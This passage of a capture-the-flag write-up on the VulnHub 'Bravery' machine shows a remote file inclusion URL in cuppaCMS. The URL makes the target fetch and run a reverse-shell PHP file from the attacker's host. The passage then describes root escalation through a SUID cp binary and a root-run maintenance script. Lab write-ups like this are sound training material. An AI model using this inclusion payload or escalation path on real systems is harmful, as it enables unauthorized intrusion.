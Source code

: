 **http://192.168.2.137/genevieve/cuppaCMS/alerts/alertConfigField.php?urlConfig=http://192.168.2.128:445/php-reverse-shell.php**

The webserver talks to our web server, gets the reverse shell and executes it and we get a shell as apache :

![shell](/img/posts/vulnhub-bravery/shell.png)

# Privilege Escalation


After setting up a proper tty (check my [Archangel](https://p4r490n.github.io/2021/06/06/TryHackMe-Archangel.html) post) and looking around I noticed at least two ways to escalate privileges. The first one is with using **cp** binary and the other one is usingno_root_squash - a setting that allows a user on the local machine to add files as root to the share - which then gets uploaded to the server. A *really*  bad idea. Let's take a look at escalation number one - the **cp** binary :

## Using /usr/bin/cp

```bash
-rwsr-xr-x. 1 root root 155176 Apr 11  2018 /usr/bin/cp
.
-rw-r--r--. 1 root root 130 Jun 23  2018 maintenance.sh
```

Since **cp** uses root privileged each time it runs we can copy any file we want and replace anything we want with what we specify.

The content of maintenance :

```bash
#!/bin/sh

rm /var/www/html/README.txt
echo "Try harder!" > /var/www/html/README.txt
chown apache:apache /var/www/html/README.txt
```


The cp binary is running as root and the maintenance.sh is owned by root. I checked crontab but all I got was *no crontab for apache* message. After using pspy32 I saw that the root is executing this file :

![pspy32](/img/posts/vulnhub-bravery/pspy32.png)
